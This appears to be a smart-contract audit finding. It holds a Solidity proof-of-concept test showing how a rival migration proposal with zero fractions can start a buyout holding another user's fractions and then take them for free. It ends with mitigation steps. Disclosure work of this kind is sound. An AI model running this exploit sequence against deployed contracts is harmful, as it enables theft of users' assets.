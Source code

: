 ### Proof of Concept

Add this code to test/Migration.t.sol

    function testPanprogBugH4() public {
    	initializeMigration(alice, bob, 10000, 10000, true);

    	(nftReceiverSelectors, nftReceiverPlugins) = initializeNFTReceiver();
    	// Migrate to a vault with no permissions (just to test out migration)
    	address[] memory newModules = new address[](2);

    	newModules[0] = migration;
    	newModules[1] = modules[1];

    	// Bob makes the proposal
    	bob.migrationModule.propose(
    		vault,
    		newModules,
    		nftReceiverPlugins,
    		nftReceiverSelectors,
    		TOTAL_SUPPLY * 2,
    		10 ether
    	);
    	// Bob joins the proposal with 3000 fractions
    	bob.migrationModule.join{value: 1 ether}(vault, 1, 3000);

    	// Alice starts a competing proposal (we use bob's data for simplicity)
    	alice.migrationModule.propose(
    		vault,
    		newModules,
    		nftReceiverPlugins,
    		nftReceiverSelectors,
    		TOTAL_SUPPLY * 10,
    		0 ether
    	);

    	// Alice joins her proposal with 0 fractions and minimum allowed ether (for the price to be above target)
    	alice.migrationModule.join{value: 1}(vault, 2, 0);

    	// since the target price is reached, alice starts the buyout on her proposal
    	alice.migrationModule.commit(vault, 2);

    	// at this point buyout should be empty, but in fact due to bug it has 3000 fractions from bob
    	// alice can now buy fractions from buyout for free (it should revert, but it doesn't)
    	vm.expectRevert(
    		abi.encodeWithSelector(IBuyout.InvalidPayment.selector)
    	);
    	alice.buyoutModule.buyFractions(vault, 3000);
    }

### Recommended Mitigation Steps

`Buyout` `start` function should include amount of fractions a proposer deposits, and `Migration`'s `commit` function should specify correct fractions amount when starting a buyout.
